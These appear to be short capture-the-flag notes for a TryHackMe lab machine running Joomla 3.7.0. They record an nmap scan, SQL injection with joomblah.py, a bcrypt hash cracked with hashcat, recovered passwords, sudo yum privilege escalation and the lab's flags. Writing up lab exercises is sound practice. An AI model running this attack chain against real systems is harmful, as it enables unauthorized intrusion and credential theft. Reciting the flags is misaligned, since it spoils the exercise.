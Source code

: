 ## NMAP

nmap -sV -O -T4 -Pn 10.10.33.225 -oN nmap/initial

22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
3306/tcp open  mysql   MariaDB (unauthorized)

## Gobuster scan

Nothing found

## Curl

Apache 2.4.6
PHP 5.6.40

Admin Page : /administrator/index.php


## Version

joomla 3.7.0 	SQLInjection

## Using joomblah.py

['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']

jonah:$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm
jonah:spiderman123

bcrypt, Blowfish (Unix) hash

hashcat -a 0 -m 3200 hash.txt rackyou.txt ==> spiderman123

Admin POrtal Access : jonah:spiderman123


User : jjameson

Found : configuration.php in /var/www/html
Password : nv5uz9r3ZEDzVjNu

USer hash : 27a260fe3cba712cfdedb1c86d80442e

/usr/bin/yum can be run as root

Root flag : eec3d53292b1821868266858d7fa6f79